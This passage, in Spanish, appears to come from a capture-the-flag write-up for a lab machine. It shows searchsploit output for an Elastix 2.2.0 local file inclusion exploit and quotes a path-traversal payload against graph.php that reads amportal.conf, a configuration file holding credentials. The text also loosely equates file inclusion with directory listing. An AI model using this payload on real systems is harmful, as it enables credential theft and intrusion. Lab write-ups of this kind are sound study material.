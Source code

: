 Para indagar un poco más en el script, se ejecuta el siguiente comando

```bash
❯ searchsploit -x php/webapps/37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
    Codes: N/A
 Verified: True
File Type: ASCII text
```
{: .nolineno }

Dentro de este script en `Perl`, nos indica que existe un directorio vulnerable

```perl
LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
Y podemos ver el archivo `amportal.conf`

![amportal.conf](/assets/img/commons/Beep/Amportal.conf.png)_Amportal.conf_

### Local File Inclusion (LFI)

Es decir, tenemos capacidad de Directory Listing
